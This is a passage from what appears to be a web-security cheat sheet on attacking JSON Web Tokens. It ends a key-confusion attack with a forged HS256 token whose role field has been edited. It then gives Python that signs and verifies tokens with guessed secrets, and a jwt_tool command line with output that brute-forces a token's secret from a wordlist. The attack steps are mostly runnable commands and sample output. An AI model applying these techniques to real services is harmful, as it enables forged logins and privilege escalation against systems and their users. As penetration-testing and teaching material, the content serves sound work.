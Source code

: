     (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
    ```

3. Convert signature (Hex to "base64 URL")

    ```powershell
    $ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
    ```

4. Add signature to edited payload

    ```powershell
    [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
    ```

## Breaking JWT's secret

Encode/Decode JWT with the secret.

```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256') # encode with 'secret'

encoded = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE"
jwt.decode(encoded, 'Sn1f', algorithms=['HS256']) # decode with 'Sn1f' as the secret key

# result
{u'admin': True, u'sub': u'1234567890', u'name': u'John Doe'}
```

### JWT tool

First, bruteforce the "secret" key used to compute the signature.

```powershell
git clone https://github.com/ticarpi/jwt_tool
python2.7 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI /tmp/wordlist

Token header values:
[+] alg = HS256
[+] typ = JWT

Token payload values:
[+] sub = 1234567890
[+] role = user
[+] iat = 1516239022

File loaded: /tmp/wordlist
Testing 5 passwords...
[+] secret is the CORRECT key!
```
